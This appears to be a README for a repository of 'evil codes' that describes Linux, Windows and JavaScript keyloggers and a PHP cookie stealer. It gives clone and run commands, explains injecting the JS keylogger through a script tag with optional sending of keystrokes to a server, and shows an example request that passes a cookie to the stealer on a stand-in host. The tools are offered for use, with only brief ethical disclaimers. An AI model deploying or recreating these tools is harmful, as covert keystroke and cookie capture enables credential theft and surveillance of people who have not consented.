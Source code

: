 <h1 align='center'>Disclaimer</h1>
These tools are intended for educational and ethical penetration testing only. Unauthorized use of these tools to monitor systems without permission is illegal and unethical.
<li><b>Download:</b>
<pre><code>git clone https://github.com/Kode-n-Rolla/evil-codes.git
cd evil-codes</code></pre>
<h2 align='center'>Keyloggers</h2>
<p>The keyloggers are designed to capture keystrokes and log activity on different operating systems. Please note that these are the first versions and will be refined and enhanced over time. These keyloggers designed for educational and ethical purposes.
<ol>
  <h3><li>Linux Keylogger</h3>
    <ul>
      <li><b>Description:</b> This keylogger is specifically designed for Linux environments. It listens to keyboard events through the /dev/input devices and logs keystrokes to a file. The keylogger can also detect active processes using xdotool if available
      <li><b>Features:</b>
        <ul>
          <li>Captures and logs keystrokes directly from input devices
          <li>Supports the mapping of key codes to human-readable characters
          <li>Writes logs to a file for easy review and analysis
          <li>Requires root privileges for access to input devices
        </ul>
      <li><b>Run</b> the keylogger with root permissions:
            <pre><code>sudo python linux_keylogger.py</code></pre>
    </ul>
    <h3><li>Windows Keylogger</h3>
      <ul>
        <li><b>Description:</b> The Windows version of the keylogger leverages the Windows API and <code>psutil</code> library to capture active window information, process details, and keystrokes. It logs all activities into a file for analysis
        <li><b>Features:</b>
          <ul>
            <li>Captures and logs keystrokes using the Windows API
            <li>Retrieves active window and process information for detailed logging
            <li>Supports keyboard layout detection for accurate log representation
            <li>Outputs logs to a file with detailed information about the active application and layout
          </ul>
              <li><b>Run</b> the keylogger:
                <pre><code>python windows_keylogger.py</code></pre>
      </ul>
      <h3><li>JavaScript Keylogger</h3>
            <ul>
        <li><b>Description:</b> It logs keypress events, including standard characters, special function keys (e.g., Esc, Enter, Backspace), and modifier keys (Shift, Ctrl, Alt). The keylogger also captures key combinations to provide more comprehensive data. The                   project showcases JavaScript's event handling capabilities, which could be useful in understanding how keylogging works
        <li><b>Features:</b>
          <ul>
            <li>Logs Regular Keys: Captures standard keyboard characters, including letters, numbers, and symbols
            <li>Detects Modifier Keys: Recognizes Shift, Ctrl, Alt, and Meta (Windows/Command) keys and includes them in the log
            <li>Records Special Function Keys: Handles function keys (Esc, Backspace, Delete, Enter, Caps Lock, Tab, and arrow keys)
            <li>Key Combination Logging: Logs combinations like Ctrl + C, Shift + A, or Alt + Enter
            <li>Optional Server Communication: Allows sending logged key data to a server endpoint (e.g., for remote analysis)
          </ul>
              <li><b>How to use:</b>
                <ul><li>Place the JavaScript file containing the keylogger code into an HTML file, or link it via a &lt;script> tag</ul>
</ol>
<h2 align='center'>Cookie Stealer (.php)</h2>
              <li><b>Description:</b> This project is a simple PHP script that captures and logs cookies sent via URL parameters. The script is intended for educational and ethical purposes, such as security research and demonstration of cookie handling in web                           applications. It logs any <code>cookie</code> parameter passed through a GET request to a local file named <code>stolen_cookies.txt</code> in the same directory. Each log entry is timestamped for easy reference.
              <li><b>Warning:</b> This script should only be used in controlled environments and with permission. Unauthorized use of this tool to capture cookies is illegal and unethical.
              <li><b>How It Works:</b>
                <ol>
                  <li>The script checks for a URL parameter named <code>cookie</code>
                  <li>If <code>cookie</code> is present, its value is saved to a file <code>stolen_cookies.txt</code> along with the current timestamp
                  <li>If the parameter is missing, the script simply returns a message saying "No cookie"
                </ol>
              <li><b>Example:</b>
                To log a cookie with a value of example_cookie_value, make a GET request like this:
                <pre><code>http://your-server.com/cookie-stealer.php?cookie=example_cookie_value</code></pre>
<h2 align='center'>Future Improvements:</h2>
<ul>
  <li><b>Security Enhancements:</b> Aim to make the keyloggers more robust and add encryption to protect the captured logs
  <li><b>Additional Platforms:</b> Support for macOS and possible improvements to cross-platform functionality
  <li><b>Process Tracking:</b> Improvements in tracking processes and window changes in Linux, similar to the Windows version
  <li><b>Customization:</b> Providing more customizable settings, such as changing the log file location, log formatting, and more
</ul>
